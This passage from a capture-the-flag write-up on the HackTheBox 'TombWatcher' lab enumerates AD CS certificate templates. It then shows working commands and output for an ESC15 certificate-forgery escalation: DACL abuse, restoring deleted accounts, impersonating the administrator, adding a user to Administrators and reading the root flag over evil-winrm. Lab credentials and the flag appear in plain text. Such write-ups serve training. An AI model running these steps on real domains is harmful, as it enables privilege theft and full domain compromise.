            ManageCa                        : TOMBWATCHER.HTB\Administrators
                                              TOMBWATCHER.HTB\Domain Admins
                                              TOMBWATCHER.HTB\Enterprise Admins
            Enroll                          : TOMBWATCHER.HTB\Authenticated Users
    Certificate Templates
      0
        Template Name                       : KerberosAuthentication
        Display Name                        : Kerberos Authentication
        Certificate Authorities             : tombwatcher-CA-1
        Enabled                             : True
        Client Authentication               : True
        Enrollment Agent                    : False
        Any Purpose                         : False
        Enrollee Supplies Subject           : False
        Certificate Name Flag               : SubjectAltRequireDns
                                              SubjectAltRequireDomainDns
        Enrollment Flag                     : AutoEnrollment
        Private Key Flag                    : AttestNone
        Extended Key Usage                  : Client Authentication
                                              Server Authentication
                                              Smart Card Logon
                                              KDC Authentication
        Requires Manager Approval           : False
        Requires Key Archival               : False
        Authorized Signatures Required      : 0
        Validity Period                     : 1 year
        Renewal Period                      : 6 weeks
        Minimum RSA Key Length              : 2048
        Permissions
          Enrollment Permissions
            Enrollment Rights               : TOMBWATCHER.HTB\Enterprise Read-only Domain Controllers
                                              TOMBWATCHER.HTB\Domain Admins
                                              TOMBWATCHER.HTB\Domain Controllers
                                              TOMBWATCHER.HTB\Enterprise Admins
                                              TOMBWATCHER.HTB\Enterprise Domain Controllers
          Object Control Permissions
            Owner                           : TOMBWATCHER.HTB\Enterprise Admins
            Write Owner Principals          : TOMBWATCHER.HTB\Domain Admins
                                              TOMBWATCHER.HTB\Enterprise Admins
            Write Dacl Principals           : TOMBWATCHER.HTB\Domain Admins
                                              TOMBWATCHER.HTB\Enterprise Admins
            Write Property Principals       : TOMBWATCHER.HTB\Domain Admins
                                              TOMBWATCHER.HTB\Enterprise Admins
      1
        Template Name                       : DirectoryEmailReplication
        Display Name                        : Directory Email Replication
        Certificate Authorities             : tombwatcher-CA-1
        Enabled                             : True
        Client Authentication               : False
        Enrollment Agent                    : False
        Any Purpose                         : False
        Enrollee Supplies Subject           : False
        Certificate Name Flag               : SubjectAltRequireDns
                                              SubjectAltRequireDirectoryGuid
        Enrollment Flag                     : AutoEnrollment
                                              PublishToDs
                                              IncludeSymmetricAlgorithms
        Private Key Flag                    : AttestNone
        Extended Key Usage                  : Directory Service Email Replication
        Requires Manager Approval           : False
        Requires Key Archival               : False
        Authorized Signatures Required      : 0
        Validity Period                     : 1 year
        Renewal Period                      : 6 weeks
        Minimum RSA Key Length              : 2048
        Permissions
          Enrollment Permissions
            Enrollment Rights               : TOMBWATCHER.HTB\Enterprise Read-only Domain Controllers
                                              TOMBWATCHER.HTB\Domain Admins
                                              TOMBWATCHER.HTB\Domain Controllers
                                              TOMBWATCHER.HTB\Enterprise Admins
                                              TOMBWATCHER.HTB\Enterprise Domain Controllers
          Object Control Permissions
            Owner                           : TOMBWATCHER.HTB\Enterprise Admins
            Write Owner Principals          : TOMBWATCHER.HTB\Domain Admins
                                              TOMBWATCHER.HTB\Enterprise Admins
            Write Dacl Principals           : TOMBWATCHER.HTB\Domain Admins
                                              TOMBWATCHER.HTB\Enterprise Admins
            Write Property Principals       : TOMBWATCHER.HTB\Domain Admins
                                              TOMBWATCHER.HTB\Enterprise Admins
      2
        Template Name                       : DomainControllerAuthentication
        Display Name                        : Domain Controller Authentication
        Certificate Authorities             : tombwatcher-CA-1
        Enabled                             : True
        Client Authentication               : True
        Enrollment Agent                    : False
        Any Purpose                         : False
        Enrollee Supplies Subject           : False
        Certificate Name Flag               : SubjectAltRequireDns
        Enrollment Flag                     : AutoEnrollment
        Private Key Flag                    : AttestNone
        Extended Key Usage                  : Client Authentication
                                              Server Authentication
                                              Smart Card Logon
        Requires Manager Approval           : False
        Requires Key Archival               : False
        Authorized Signatures Required      : 0
        Validity Period                     : 1 year
        Renewal Period                      : 6 weeks
        Minimum RSA Key Length              : 2048
        Permissions
          Enrollment Permissions
            Enrollment Rights               : TOMBWATCHER.HTB\Enterprise Read-only Domain Controllers
                                              TOMBWATCHER.HTB\Domain Admins
                                              TOMBWATCHER.HTB\Domain Controllers
                                              TOMBWATCHER.HTB\Enterprise Admins
                                              TOMBWATCHER.HTB\Enterprise Domain Controllers
          Object Control Permissions
            Owner                           : TOMBWATCHER.HTB\Enterprise Admins
            Write Owner Principals          : TOMBWATCHER.HTB\Domain Admins
                                              TOMBWATCHER.HTB\Enterprise Admins
            Write Dacl Principals           : TOMBWATCHER.HTB\Domain Admins
                                              TOMBWATCHER.HTB\Enterprise Admins
            Write Property Principals       : TOMBWATCHER.HTB\Domain Admins
                                              TOMBWATCHER.HTB\Enterprise Admins
      3
        Template Name                       : SubCA
        Display Name                        : Subordinate Certification Authority
        Certificate Authorities             : tombwatcher-CA-1
        Enabled                             : True
        Client Authentication               : True
        Enrollment Agent                    : True
        Any Purpose                         : True
        Enrollee Supplies Subject           : True
        Certificate Name Flag               : EnrolleeSuppliesSubject
        Enrollment Flag                     : None
        Private Key Flag                    : ExportableKey
        Requires Manager Approval           : False
        Requires Key Archival               : False
        Authorized Signatures Required      : 0
        Validity Period                     : 5 years
        Renewal Period                      : 6 weeks
        Minimum RSA Key Length              : 2048
        Permissions
          Enrollment Permissions
            Enrollment Rights               : TOMBWATCHER.HTB\Domain Admins
                                              TOMBWATCHER.HTB\Enterprise Admins
          Object Control Permissions
            Owner                           : TOMBWATCHER.HTB\Enterprise Admins
            Write Owner Principals          : TOMBWATCHER.HTB\Domain Admins
                                              TOMBWATCHER.HTB\Enterprise Admins
            Write Dacl Principals           : TOMBWATCHER.HTB\Domain Admins
                                              TOMBWATCHER.HTB\Enterprise Admins
            Write Property Principals       : TOMBWATCHER.HTB\Domain Admins
                                              TOMBWATCHER.HTB\Enterprise Admins
      4
        Template Name                       : WebServer
        Display Name                        : Web Server
        Certificate Authorities             : tombwatcher-CA-1
        Enabled                             : True
        Client Authentication               : False
        Enrollment Agent                    : False
        Any Purpose                         : False
        Enrollee Supplies Subject           : True
        Certificate Name Flag               : EnrolleeSuppliesSubject
        Enrollment Flag                     : None
        Private Key Flag                    : AttestNone
        Extended Key Usage                  : Server Authentication
        Requires Manager Approval           : False
        Requires Key Archival               : False
        Authorized Signatures Required      : 0
        Validity Period                     : 2 years
        Renewal Period                      : 6 weeks
        Minimum RSA Key Length              : 2048
        Permissions
          Enrollment Permissions
            Enrollment Rights               : TOMBWATCHER.HTB\Domain Admins
                                              TOMBWATCHER.HTB\Enterprise Admins
                                              TOMBWATCHER.HTB\cert_admin
          Object Control Permissions
            Owner                           : TOMBWATCHER.HTB\Enterprise Admins
            Write Owner Principals          : TOMBWATCHER.HTB\Domain Admins
                                              TOMBWATCHER.HTB\Enterprise Admins
            Write Dacl Principals           : TOMBWATCHER.HTB\Domain Admins
                                              TOMBWATCHER.HTB\Enterprise Admins
            Write Property Principals       : TOMBWATCHER.HTB\Domain Admins
                                              TOMBWATCHER.HTB\Enterprise Admins
      5
        Template Name                       : DomainController
        Display Name                        : Domain Controller
        Certificate Authorities             : tombwatcher-CA-1
        Enabled                             : True
        Client Authentication               : True
        Enrollment Agent                    : False
        Any Purpose                         : False
        Enrollee Supplies Subject           : False
        Certificate Name Flag               : SubjectRequireDnsAsCn
                                              SubjectAltRequireDns
                                              SubjectAltRequireDirectoryGuid
        Enrollment Flag                     : AutoEnrollment
                                              PublishToDs
                                              IncludeSymmetricAlgorithms
        Private Key Flag                    : AttestNone
        Extended Key Usage                  : Client Authentication
                                              Server Authentication
        Requires Manager Approval           : False
        Requires Key Archival               : False
        Authorized Signatures Required      : 0
        Validity Period                     : 1 year
        Renewal Period                      : 6 weeks
        Minimum RSA Key Length              : 2048
        Permissions
          Enrollment Permissions
            Enrollment Rights               : TOMBWATCHER.HTB\Enterprise Read-only Domain Controllers
                                              TOMBWATCHER.HTB\Domain Admins
                                              TOMBWATCHER.HTB\Domain Controllers
                                              TOMBWATCHER.HTB\Enterprise Admins
                                              TOMBWATCHER.HTB\Enterprise Domain Controllers
          Object Control Permissions
            Owner                           : TOMBWATCHER.HTB\Enterprise Admins
            Write Owner Principals          : TOMBWATCHER.HTB\Domain Admins
                                              TOMBWATCHER.HTB\Enterprise Admins
            Write Dacl Principals           : TOMBWATCHER.HTB\Domain Admins
                                              TOMBWATCHER.HTB\Enterprise Admins
            Write Property Principals       : TOMBWATCHER.HTB\Domain Admins
                                              TOMBWATCHER.HTB\Enterprise Admins
      6
        Template Name                       : Machine
        Display Name                        : Computer
        Certificate Authorities             : tombwatcher-CA-1
        Enabled                             : True
        Client Authentication               : True
        Enrollment Agent                    : False
        Any Purpose                         : False
        Enrollee Supplies Subject           : False
        Certificate Name Flag               : SubjectRequireDnsAsCn
                                              SubjectAltRequireDns
        Enrollment Flag                     : AutoEnrollment
        Private Key Flag                    : AttestNone
        Extended Key Usage                  : Client Authentication
                                              Server Authentication
        Requires Manager Approval           : False
        Requires Key Archival               : False
        Authorized Signatures Required      : 0
        Validity Period                     : 1 year
        Renewal Period                      : 6 weeks
        Minimum RSA Key Length              : 2048
        Permissions
          Enrollment Permissions
            Enrollment Rights               : TOMBWATCHER.HTB\Domain Admins
                                              TOMBWATCHER.HTB\Domain Computers
                                              TOMBWATCHER.HTB\Enterprise Admins
          Object Control Permissions
            Owner                           : TOMBWATCHER.HTB\Enterprise Admins
            Write Owner Principals          : TOMBWATCHER.HTB\Domain Admins
                                              TOMBWATCHER.HTB\Enterprise Admins
            Write Dacl Principals           : TOMBWATCHER.HTB\Domain Admins
                                              TOMBWATCHER.HTB\Enterprise Admins
            Write Property Principals       : TOMBWATCHER.HTB\Domain Admins
                                              TOMBWATCHER.HTB\Enterprise Admins
      7
        Template Name                       : EFSRecovery
        Display Name                        : EFS Recovery Agent
        Certificate Authorities             : tombwatcher-CA-1
        Enabled                             : True
        Client Authentication               : False
        Enrollment Agent                    : False
        Any Purpose                         : False
        Enrollee Supplies Subject           : False
        Certificate Name Flag               : SubjectRequireDirectoryPath
                                              SubjectAltRequireUpn
        Enrollment Flag                     : AutoEnrollment
                                              IncludeSymmetricAlgorithms
        Private Key Flag                    : ExportableKey
        Extended Key Usage                  : File Recovery
        Requires Manager Approval           : False
        Requires Key Archival               : False
        Authorized Signatures Required      : 0
        Validity Period                     : 5 years
        Renewal Period                      : 6 weeks
        Minimum RSA Key Length              : 2048
        Permissions
          Enrollment Permissions
            Enrollment Rights               : TOMBWATCHER.HTB\Domain Admins
                                              TOMBWATCHER.HTB\Enterprise Admins
          Object Control Permissions
            Owner                           : TOMBWATCHER.HTB\Enterprise Admins
            Write Owner Principals          : TOMBWATCHER.HTB\Domain Admins
                                              TOMBWATCHER.HTB\Enterprise Admins
            Write Dacl Principals           : TOMBWATCHER.HTB\Domain Admins
                                              TOMBWATCHER.HTB\Enterprise Admins
            Write Property Principals       : TOMBWATCHER.HTB\Domain Admins
                                              TOMBWATCHER.HTB\Enterprise Admins
      8
        Template Name                       : Administrator
        Display Name                        : Administrator
        Certificate Authorities             : tombwatcher-CA-1
        Enabled                             : True
        Client Authentication               : True
        Enrollment Agent                    : False
        Any Purpose                         : False
        Enrollee Supplies Subject           : False
        Certificate Name Flag               : SubjectRequireDirectoryPath
                                              SubjectRequireEmail
                                              SubjectAltRequireEmail
                                              SubjectAltRequireUpn
        Enrollment Flag                     : AutoEnrollment
                                              PublishToDs
                                              IncludeSymmetricAlgorithms
        Private Key Flag                    : ExportableKey
        Extended Key Usage                  : Microsoft Trust List Signing
                                              Encrypting File System
                                              Secure Email
                                              Client Authentication
        Requires Manager Approval           : False
        Requires Key Archival               : False
        Authorized Signatures Required      : 0
        Validity Period                     : 1 year
        Renewal Period                      : 6 weeks
        Minimum RSA Key Length              : 2048
        Permissions
          Enrollment Permissions
            Enrollment Rights               : TOMBWATCHER.HTB\Domain Admins
                                              TOMBWATCHER.HTB\Enterprise Admins
          Object Control Permissions
            Owner                           : TOMBWATCHER.HTB\Enterprise Admins
            Write Owner Principals          : TOMBWATCHER.HTB\Domain Admins
                                              TOMBWATCHER.HTB\Enterprise Admins
            Write Dacl Principals           : TOMBWATCHER.HTB\Domain Admins
                                              TOMBWATCHER.HTB\Enterprise Admins
            Write Property Principals       : TOMBWATCHER.HTB\Domain Admins
                                              TOMBWATCHER.HTB\Enterprise Admins
      9
        Template Name                       : EFS
        Display Name                        : Basic EFS
        Certificate Authorities             : tombwatcher-CA-1
        Enabled                             : True
        Client Authentication               : False
        Enrollment Agent                    : False
        Any Purpose                         : False
        Enrollee Supplies Subject           : False
        Certificate Name Flag               : SubjectRequireDirectoryPath
                                              SubjectAltRequireUpn
        Enrollment Flag                     : AutoEnrollment
                                              PublishToDs
                                              IncludeSymmetricAlgorithms
        Private Key Flag                    : ExportableKey
        Extended Key Usage                  : Encrypting File System
        Requires Manager Approval           : False
        Requires Key Archival               : False
        Authorized Signatures Required      : 0
        Validity Period                     : 1 year
        Renewal Period                      : 6 weeks
        Minimum RSA Key Length              : 2048
        Permissions
          Enrollment Permissions
            Enrollment Rights               : TOMBWATCHER.HTB\Domain Admins
                                              TOMBWATCHER.HTB\Domain Users
                                              TOMBWATCHER.HTB\Enterprise Admins
          Object Control Permissions
            Owner                           : TOMBWATCHER.HTB\Enterprise Admins
            Write Owner Principals          : TOMBWATCHER.HTB\Domain Admins
                                              TOMBWATCHER.HTB\Enterprise Admins
            Write Dacl Principals           : TOMBWATCHER.HTB\Domain Admins
                                              TOMBWATCHER.HTB\Enterprise Admins
            Write Property Principals       : TOMBWATCHER.HTB\Domain Admins
                                              TOMBWATCHER.HTB\Enterprise Admins
      10
        Template Name                       : User
        Display Name                        : User
        Certificate Authorities             : tombwatcher-CA-1
        Enabled                             : True
        Client Authentication               : True
        Enrollment Agent                    : False
        Any Purpose                         : False
        Enrollee Supplies Subject           : False
        Certificate Name Flag               : SubjectRequireDirectoryPath
                                              SubjectRequireEmail
                                              SubjectAltRequireEmail
                                              SubjectAltRequireUpn
        Enrollment Flag                     : AutoEnrollment
                                              PublishToDs
                                              IncludeSymmetricAlgorithms
        Private Key Flag                    : ExportableKey
        Extended Key Usage                  : Encrypting File System
                                              Secure Email
                                              Client Authentication
        Requires Manager Approval           : False
        Requires Key Archival               : False
        Authorized Signatures Required      : 0
        Validity Period                     : 1 year
        Renewal Period                      : 6 weeks
        Minimum RSA Key Length              : 2048
        Permissions
          Enrollment Permissions
            Enrollment Rights               : TOMBWATCHER.HTB\Domain Admins
                                              TOMBWATCHER.HTB\Domain Users
                                              TOMBWATCHER.HTB\Enterprise Admins
          Object Control Permissions
            Owner                           : TOMBWATCHER.HTB\Enterprise Admins
            Write Owner Principals          : TOMBWATCHER.HTB\Domain Admins
                                              TOMBWATCHER.HTB\Enterprise Admins
            Write Dacl Principals           : TOMBWATCHER.HTB\Domain Admins
                                              TOMBWATCHER.HTB\Enterprise Admins
            Write Property Principals       : TOMBWATCHER.HTB\Domain Admins
                                              TOMBWATCHER.HTB\Enterprise Admins


```sh
  4
    Template Name                       : WebServer
    Display Name                        : Web Server
    Certificate Authorities             : tombwatcher-CA-1
    Enabled                             : True
    Client Authentication               : False
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    Enrollment Flag                     : None
    Private Key Flag                    : AttestNone
    Extended Key Usage                  : Server Authentication
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Validity Period                     : 2 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Permissions
      Enrollment Permissions
        Enrollment Rights               : TOMBWATCHER.HTB\Domain Admins
                                          TOMBWATCHER.HTB\Enterprise Admins
                                          TOMBWATCHER.HTB\cert_admin
      Object Control Permissions
        Owner                           : TOMBWATCHER.HTB\Enterprise Admins
        Write Owner Principals          : TOMBWATCHER.HTB\Domain Admins
                                          TOMBWATCHER.HTB\Enterprise Admins
        Write Dacl Principals           : TOMBWATCHER.HTB\Domain Admins
                                          TOMBWATCHER.HTB\Enterprise Admins
        Write Property Principals       : TOMBWATCHER.HTB\Domain Admins
                                          TOMBWATCHER.HTB\Enterprise Admins

```sh
/opt/venv/bin # dacledit.py -action 'write' -rights 'FullControl' -inheritance -principal 'john' -target-dn 'OU=AD
CS,DC=TOMBWATCHER,DC=HTB' 'tombwatcher.htb'/'john':'Password1234!'
Impacket v0.13.0.dev0+20250109.91705.ac02e0e - Copyright Fortra, LLC and its affiliated companies 

[*] NB: objects with adminCount=1 will no inherit ACEs from their parent container/OU
[*] DACL backed up to dacledit-20250608-092213.bak
[*] DACL modified successfully!

Not every one of these have the same permissions, the 938 has enroll webserver permissions
```sh
*Evil-WinRM* PS C:\Users\John\Downloads> restore-adobject -identity f80369c8-96a2-4a7f-a56c-9c15edd7d1e3 -NewName cert_admin3
*Evil-WinRM* PS C:\Users\John\Downloads> restore-adobject -identity 938182c3-bf0b-410a-9aaa-45c8e1a02ebf -NewName cert_admin2 
*Evil-WinRM* PS C:\Users\John\Downloads> restore-adobject -identity c1f1f0fe-df9c-494c-bf05-0679e181b358 -NewName cert_admin1
```



Finding the "Enrollee_Supplies_Subject" flag on this webserver template, we map this back to the below ESC15 manually, even if certipy didn't helpfully throw it in my eyeballs.  
https://www.thehacker.recipes/ad/movement/adcs/certificate-templates#esc15-cve-2024-49019-arbitrary-application-policy

This certipy auth fails because the client auth is set to false. We'll be fixing that later with an overflow of this subject.


```python
!certipy auth -pfx administrator.pfx -dc-ip 10.129.6.179
```

    Certipy v4.8.2 - by Oliver Lyak (ly4k)
    
    [*] Using principal: administrator@tombwatcher.htb
    [*] Trying to get TGT...
    [-] Got error while trying to request TGT: Kerberos SessionError: KDC_ERR_INCONSISTENT_KEY_PURPOSE(Certificate cannot be used for PKINIT client authentication)


The ldap shell tries to use the forged server authentication flag in the subject, but the ssl on the server side is too weak for my clients right now even though the newer version of certipy has the ALL:SECURE_LEVEL=0


```python
!certipy auth -pfx administrator.pfx -ldap-shell -dc-ip 10.129.6.179
```

    Certipy v4.8.2 - by Oliver Lyak (ly4k)
    
    [*] Connecting to 'ldaps://10.129.6.179:636'
    [-] Got error: ("('socket ssl wrapping error: [SSL: CA_MD_TOO_WEAK] ca md too weak (_ssl.c:3855)',)",)
    [-] Use -debug to print a stacktrace


### Edited openssl
* Started a container with python:3.8.8 and installed certipy-ad to ensure I was on openssl 1.1.1
* updated /etc/ssl/openssl.cnf to include the following lines:
```
[system_default_sect]
MinProtocol = TLSv1
CipherString = DEFAULT@SECLEVEL=0
```


I suspect this would have worked with "Certificate Request Agent" (1.3.6.1.4.1.311.20.2.1) for a direct auth, I will try this later. For now this method gives me ldapshell as administrator so I can give john the promotion they deserve.

On newer certipy
```sh
root@cace85f73c7d:/currentdir# certipy req -u 'cert_admin@tombwatcher.htb' -p 'Password1234!' -target 'tombwatcher.htb' -ca 'tombwatcher-CA-1' -template 'WEBSERVER' -upn 'administrator@tombwatcher.htb' -sid 'S-1-5-21-1392491010-1358638721-2126982587-500' -application-policies '1.3.6.1.5.5.7.3.2'
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 26
[*] Successfully requested certificate
[*] Got certificate with UPN 'administrator@tombwatcher.htb'
[*] Certificate object SID is 'S-1-5-21-1392491010-1358638721-2126982587-500'
[*] Saving certificate and private key to 'administrator.pfx'
[*] Wrote certificate and private key to 'administrator.pfx'
```
On older openssl
```sh
root@9b71e9a4c4fc:/currentdir# certipy auth -pfx administrator.pfx -debug -ldap-shell -dc-ip 10.129.6.179
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Connecting to 'ldaps://10.129.6.179:636'
[*] Authenticated to '10.129.6.179' as: u:TOMBWATCHER\Administrator
Type help for list of commands

# whoami
u:TOMBWATCHER\Administrator

# add_user_to_group john administrators
Adding user: john to group Administrators result: OK
```

on host
```sh
(.venv)  ✘ tokugero@pangolin  ~/ctf/htb/season8/week4-tombwatcher   main  evil-winrm -i tombwatcher.htb -u john -p Password1234!
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\john\Documents> cd ../../Administrator/Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
6aec4679709db87682e8892801b59f01

Attempting to use the Client Authentication to trick KDC or Schannel (pkinittools / certipy auth to get hash), this does not work in this challenge for me
https://github.com/ly4k/Certipy/wiki/06-%E2%80%90-Privilege-Escalation#esc15-arbitrary-application-policy-injection-in-v1-templates-cve-2024-49019-ekuwu
```sh
root@cace85f73c7d:/currentdir# certipy req -u 'cert_admin@tombwatcher.htb' -p 'Password1234!' -target 'tombwatcher.htb' -ca 'tombwatcher-CA-1' -template 'WEBSERVER' -upn 'administrator@tombwatcher.htb' -sid 'S-1-5-21-1392491010-1358638721-2126982587-500' -application-policies '1.3.6.1.5.5.7.3.2'
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 27
[*] Successfully requested certificate
[*] Got certificate with UPN 'administrator@tombwatcher.htb'
[*] Certificate object SID is 'S-1-5-21-1392491010-1358638721-2126982587-500'
[*] Saving certificate and private key to 'administrator.pfx'
[*] Wrote certificate and private key to 'administrator.pfx'
```

```sh
root@cace85f73c7d:/currentdir# certipy auth -pfx administrator.pfx -dc-ip 10.129.6.179
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'administrator@tombwatcher.htb'
[*]     SAN URL SID: 'S-1-5-21-1392491010-1358638721-2126982587-500'
[*]     Security Extension SID: 'S-1-5-21-1392491010-1358638721-2126982587-500'
[*] Using principal: 'administrator@tombwatcher.htb'
[*] Trying to get TGT...
[-] Certificate is not valid for client authentication
[-] Check the certificate template and ensure it has the correct EKU(s)
[-] If you recently changed the certificate template, wait a few minutes for the change to propagate
[-] See the wiki for more information
```

```sh
(.venv)  ✘ tokugero@pangolin  ~/ctf/htb/season8/week4-tombwatcher/PKINITtools   master  python gettgtpkinit.py -cert-pfx ../administrator.pfx tombwatcher.htb/administrator ccache
2025-06-08 12:29:09,312 minikerberos INFO     Loading certificate and key from file
INFO:minikerberos:Loading certificate and key from file
2025-06-08 12:29:09,391 minikerberos INFO     Requesting TGT
INFO:minikerberos:Requesting TGT
Traceback (most recent call last):
  File "/home/tokugero/ctf/htb/season8/week4-tombwatcher/PKINITtools/gettgtpkinit.py", line 349, in <module>
    main()
  File "/home/tokugero/ctf/htb/season8/week4-tombwatcher/PKINITtools/gettgtpkinit.py", line 345, in main
    amain(args)
  File "/home/tokugero/ctf/htb/season8/week4-tombwatcher/PKINITtools/gettgtpkinit.py", line 315, in amain
    res = sock.sendrecv(req)
          ^^^^^^^^^^^^^^^^^^
  File "/home/tokugero/ctf/htb/season8/week4-tombwatcher/.venv/lib/python3.12/site-packages/minikerberos/network/clientsocket.py", line 85, in sendrecv
    raise KerberosError(krb_message)
minikerberos.protocol.errors.KerberosError:  Error Name: KDC_ERR_INCONSISTENT_KEY_PURPOSE Detail: "Error message not found! Err code: 77" 
```

```sh
(.venv)  tokugero@pangolin  ~/ctf/htb/season8/week4-tombwatcher   main  openssl x509 -in administrator.pfx -text
Certificate:
    Data:
        Version: 3 (0x2)
        Serial Number:
            2e:00:00:00:1a:fc:c0:e2:a8:6f:92:14:2c:00:00:00:00:00:1a
        Signature Algorithm: sha1WithRSAEncryption
        Issuer: DC=htb, DC=tombwatcher, CN=tombwatcher-CA-1
        Validity
            Not Before: Jun  8 18:57:49 2025 GMT
            Not After : Jun  8 18:57:49 2027 GMT
        Subject: CN=Cert_admin
        Subject Public Key Info:
            Public Key Algorithm: rsaEncryption
                Public-Key: (2048 bit)
                Modulus:
                    00:ce:8a:f6:c9:13:95:52:b4:01:6a:7b:bb:ec:1d:
                    5e:63:af:96:14:7f:a2:b3:c1:25:a9:d3:37:6a:0b:
                    53:57:90:1d:f0:ab:9f:eb:c1:5e:4e:32:55:c0:a7:
                    ab:3d:4d:4e:21:76:da:e1:e2:82:bb:c3:d3:a3:f7:
                    7e:85:ca:55:d2:e7:40:2a:04:f7:ad:8b:7a:ca:55:
                    94:58:ac:25:89:90:7b:ca:cd:17:da:cf:45:5c:cc:
                    37:b5:81:39:7a:29:a5:b7:e2:90:0d:d7:7c:57:8d:
                    d0:91:a6:20:66:2b:3e:0b:e0:9f:e3:9f:e3:5e:97:
                    41:e2:f6:46:e6:43:ea:5f:fa:5b:bb:6b:26:8a:ea:
                    d5:09:90:fa:1d:95:56:c5:69:a6:fc:45:8b:5a:2f:
                    d8:1e:24:f3:63:45:fb:28:f5:a2:5b:b9:70:56:30:
                    ab:ab:55:51:70:b3:98:9f:8e:fb:b7:f6:fc:06:32:
                    7a:d8:ae:0c:c7:2d:e5:ee:dc:4b:78:e5:58:63:6f:
                    03:b0:47:be:ab:d6:4f:e1:a9:30:80:30:9e:57:ce:
                    21:4b:d9:4e:d9:d8:86:80:5e:32:3c:ba:01:c1:5a:
                    53:8f:69:22:75:0b:2b:89:b3:41:be:ea:73:c4:d7:
                    33:0f:cf:08:50:91:42:ad:c7:c0:14:d2:7d:07:98:
                    e0:e3
                Exponent: 65537 (0x10001)
        X509v3 extensions:
            Microsoft Application Policies Extension: 
                0.0
..+.......
            Microsoft NTDS CA Extension: 
                0?.=.
+.....7..../.-S-1-5-21-1392491010-1358638721-2126982587-500
            X509v3 Subject Alternative Name: 
                othername: UPN:administrator@tombwatcher.htb, URI:tag:microsoft.com,2022-09-14:sid:S-1-5-21-1392491010-1358638721-2126982587-500
            X509v3 Subject Key Identifier: 
                6D:37:63:9A:EF:E5:9E:39:56:FB:0F:06:84:0C:C2:4A:45:25:69:2C
            X509v3 Authority Key Identifier: 
                2A:CD:E4:7A:18:17:4E:EF:87:DD:0B:1D:56:79:0A:40:50:C6:F2:3A
            X509v3 CRL Distribution Points: 
                Full Name:
                  URI:ldap:///CN=tombwatcher-CA-1,CN=DC01,CN=CDP,CN=Public%20Key%20Services,CN=Services,CN=Configuration,DC=tombwatcher,DC=htb?certificateRevocationList?base?objectClass=cRLDistributionPoint

            Authority Information Access: 
                CA Issuers - URI:ldap:///CN=tombwatcher-CA-1,CN=AIA,CN=Public%20Key%20Services,CN=Services,CN=Configuration,DC=tombwatcher,DC=htb?cACertificate?base?objectClass=certificationAuthority
            1.3.6.1.4.1.311.20.2: 
                ...W.e.b.S.e.r.v.e.r
            X509v3 Key Usage: critical
                Digital Signature, Key Encipherment
            X509v3 Extended Key Usage: 
                TLS Web Server Authentication
    Signature Algorithm: sha1WithRSAEncryption
    Signature Value:
        cb:2e:b7:a5:07:4b:47:4d:7c:a8:bd:f0:df:c8:a4:fc:fe:73:
        a4:57:1d:97:c4:1c:06:48:90:fd:3e:e9:4a:9c:7e:0b:bf:d0:
        bf:60:14:70:8d:60:ae:86:82:cb:d3:d8:ba:23:99:42:2b:29:
        dc:47:fb:7c:f6:6c:4b:c8:f6:8a:0c:c1:a0:6f:70:93:04:4e:
        79:d9:49:3f:4f:18:cd:2d:fe:19:e5:df:7b:fa:45:7d:ed:12:
        b2:d4:5e:d3:ce:42:f7:db:ee:f6:bf:37:35:94:e9:02:e8:04:
        cf:fa:2a:7f:c8:34:54:0c:83:72:5d:41:68:5d:57:b0:29:a1:
        e2:bd:86:f0:8c:cd:6f:19:ee:f8:5b:78:c4:f9:50:df:3e:9d:
        bd:4d:b7:0e:71:3d:52:35:fb:9f:5e:2b:a9:e5:88:5d:a6:47:
        a6:2a:52:f6:ff:28:39:48:37:e7:89:c5:4d:69:5a:22:ac:70:
        f2:d7:1d:6b:37:40:30:9e:83:c0:fb:61:eb:d6:58:1e:58:1e:
        00:6e:a3:aa:46:b6:9a:d5:03:48:9f:07:d6:fa:b0:94:f1:41:
        bd:73:90:8f:4f:8e:94:8e:ef:97:25:66:fc:58:e4:e7:4d:fb:
        2a:62:96:4a:7c:7f:64:5f:76:5e:72:69:46:0d:74:3d:0b:c2:
        8c:2d:8a:bd
No Trusted Uses.
No Rejected Uses.
Alias: 
Key Id: A1:51:14:B0:5D:CB:B3:57:00:F1:AE:5A:11:2C:80:DD:DB:EB:CA:0F
-----BEGIN CERTIFICATE-----
MIIGETCCBPmgAwIBAgITLgAAABr8wOKob5IULAAAAAAAGjANBgkqhkiG9w0BAQUF
ADBNMRMwEQYKCZImiZPyLGQBGRYDaHRiMRswGQYKCZImiZPyLGQBGRYLdG9tYndh
dGNoZXIxGTAXBgNVBAMTEHRvbWJ3YXRjaGVyLUNBLTEwHhcNMjUwNjA4MTg1NzQ5
WhcNMjcwNjA4MTg1NzQ5WjAVMRMwEQYDVQQDDApDZXJ0X2FkbWluMIIBIjANBgkq
hkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAzor2yROVUrQBanu77B1eY6+WFH+is8El
qdM3agtTV5Ad8Kuf68FeTjJVwKerPU1OIXba4eKCu8PTo/d+hcpV0udAKgT3rYt6
ylWUWKwliZB7ys0X2s9FXMw3tYE5eimlt+KQDdd8V43QkaYgZis+C+Cf45/jXpdB
4vZG5kPqX/pbu2smiurVCZD6HZVWxWmm/EWLWi/YHiTzY0X7KPWiW7lwVjCrq1VR
cLOYn477t/b8BjJ62K4Mxy3l7txLeOVYY28DsEe+q9ZP4akwgDCeV84hS9lO2diG
gF4yPLoBwVpTj2kidQsribNBvupzxNczD88IUJFCrcfAFNJ9B5jg4wIDAQABo4ID
IDCCAxwwGwYJKwYBBAGCNxUKBA4wDDAKBggrBgEFBQcDAjBOBgkrBgEEAYI3GQIE
